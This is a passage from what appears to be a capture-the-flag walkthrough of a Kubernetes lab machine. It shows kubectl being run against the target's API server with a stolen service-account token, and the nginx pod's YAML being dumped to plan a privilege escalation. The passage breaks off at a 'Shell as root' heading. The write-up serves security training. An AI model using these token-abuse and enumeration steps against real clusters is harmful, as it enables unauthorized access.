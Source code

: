 

The important line is the third one, which says this account can `get`,
`create`, and `list` pods.

#### nginx Container Info

I'll grab the details of the current `nginx` container:



    oxdf@hacky$ kubectl get pod nginx -o yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
    apiVersion: v1                   
    kind: Pod            
    metadata:         
      annotations:  
        kubectl.kubernetes.io/last-applied-configuration: |
          {"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{},"name":"nginx","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","imagePullPolicy":"Never","name":"nginx","volumeMounts":[{"mountPath":"/root","name":"flag"}]}],"volumes":[{"hostPath":{"
    path":"/opt/flag"},"name":"flag"}]}}
      creationTimestamp: "2022-02-13T20:31:02Z"
      name: nginx   
      namespace: default 
      resourceVersion: "511"    
      uid: b204031b-b8af-43c4-af10-add9e03a8ae5
    spec:                      
      containers:
      - image: nginx:1.14.2
        imagePullPolicy: Never
        name: nginx                               
        resources: {} 
        terminationMessagePath: /dev/termination-log
        terminationMessagePolicy: File
        volumeMounts:                             
        - mountPath: /root
          name: flag
        - mountPath: /var/run/secrets/kubernetes.io/serviceaccount
          name: kube-api-access-xtzxg             
          readOnly: true
      dnsPolicy: ClusterFirst
      enableServiceLinks: true
      nodeName: steamcloud                        
      preemptionPolicy: PreemptLowerPriority
      priority: 0
    ...[snip]...



There's a ton of information here, but the two key parts I need:

-   `namespace` is `default`
-   `image` is `nginx:1.14.2`

### Shell as root
